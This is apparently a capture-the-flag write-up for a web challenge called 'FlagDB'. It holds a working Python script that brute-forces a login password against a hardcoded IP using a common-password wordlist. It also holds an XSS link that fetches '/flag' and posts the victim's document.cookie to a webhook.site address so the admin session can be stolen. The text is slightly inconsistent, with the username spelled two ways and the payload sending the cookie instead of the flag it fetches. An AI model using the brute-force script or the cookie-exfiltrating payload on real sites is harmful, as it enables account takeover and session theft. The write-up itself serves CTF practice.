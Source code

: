 # FlagDB

Here we knew that Jammie was the username so in order to connect to the site we had to figure out the password.

So, we made a script that automatically brute forces passwords from this git: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/Pwdb_top-10000.txt

```python
import requests

url = "http://141.85.224.118:7081/"
wordlist = "passwords.txt"  
data_field = "password"    

# First, get the baseline response length
baseline = requests.post(url, data={data_field: "wrongpassword"}).text
baseline_length = len(baseline)

print(f"[i] Baseline response length: {baseline_length}")

with open(wordlist, "r") as file:
    for password in file:
        password = password.strip()
        data = {data_field: password}
        
        response = requests.post(url, data=data)
        response_length = len(response.text)

        print(f"[-] Tried: {password} | Length: {response_length}")

        if response_length != baseline_length:
            print(f"[+] Possible match! Password: {password}")
            break
```

And then we are logged in as Jamie, and we figure out that we need to contact the admin on staff @ web with this link to steal the cookie and steal the session of admin by using this link:

```
http://141.85.224.118:7081/?nickname=<script>fetch('/flag').then(r=>r.text()).then(d=>fetch('https://webhook.site/6a985bb3-a95b-439f-9de3-791071bb4aea',{method:'POST',body:document.cookie}))</script>
```

![img](https://media.discordapp.net/attachments/1392091689140752385/1393635384272879666/image.png?ex=68753518&is=6873e398&hm=3b9c4848bb9ad681405d854c2e43df80c7798159c2b897a60ce1e0ef11072397&=&format=webp&quality=lossless)
